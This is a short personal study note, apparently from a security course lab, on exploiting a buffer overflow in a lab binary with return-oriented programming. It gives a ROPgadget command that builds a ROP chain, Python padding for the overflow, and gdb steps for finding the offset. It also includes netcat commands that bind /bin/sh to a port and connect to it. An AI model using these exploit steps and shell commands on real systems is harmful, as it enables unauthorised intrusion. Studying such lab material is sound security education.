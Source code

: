 ```yaml
---
tags:
  - return_oriented_programming
---
```

- using `ROPgadget`, this extracts all the accessible gadgets from the parsed file, outputting a text file. 
	- This file will contain some python code at the very bottom that you can use to open a shell via buffer overflow
	- using this python code and write the binary to a file to parse into the program
	- the `ROPgadget` finds all the accessible gadgets within the current program and lists the addresses of all of them, these addresses are stringed together using [[Return Oriented Programming]] in the stack overflow so one points to the next
```bash
ROPgadget --binary vuln3-32 --ropchain > out-rop.txt
```
1. cause an overflow with a binary file of As (overflow at 40)
```python
padding = b'\x41' * 44
p = pack('44s', padding)
```
2. find the number of As required to bring us to the first of the addresses in the python file (in my case `0x0806e13b`)
	- using gdb:
		- create breakpoint in `copyData`: `break copyData`
		- run the code to the breakpoint: `r` 
		- look at the code within `copyData`: `disassemble`
		- set breakpoint at the address just before the return: `break *0x{address}`
		- continue the code to this point: `c`
		- inspect the frame to see where in the instructions you have landed: `info frame`
		- alter the number of As accordingly
- for part 8 and 9 it attempts to spawn a reverse-shell server with the same method, this is harder as the code provided does not have the correct addresses for the system
```bash
/tmp/nc -lnp 5678 -tte /bin/sh
```
- this sets up the reverse-shell server (what you are doing in this new python file)
```bash
/tmp/nc 127.0.0.1 5678
```
- this is to access the reverse-shell server